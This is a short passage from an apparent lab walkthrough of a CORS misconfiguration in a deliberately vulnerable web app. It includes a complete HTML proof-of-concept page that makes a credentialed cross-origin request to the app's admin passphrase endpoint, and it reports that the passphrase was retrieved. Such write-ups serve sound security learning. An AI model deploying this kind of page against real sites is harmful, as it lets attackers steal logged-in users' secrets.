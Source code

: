So let's try a cors PoC to see if it is vulnerable we can find plenty of poc online (I found mind [here](https://github.com/trustedsec/cors-poc/blob/master/corstest.html) ).  
If you are not familiar with [cors](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/), this page on portswigger is very helpful to learn more about this.  

```html
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Get passphrase</h3>
 
<div id="demo">
<button type="button" onclick="cors()">Exploit</button>
</div>
 
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("GET", "http://dvws.local/api/v2/passphrase/admin", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
 
</body>
</html>
```

And here we get the passphrase  
![get passphrase](.res/2024-01-21-10-43-56.png)  
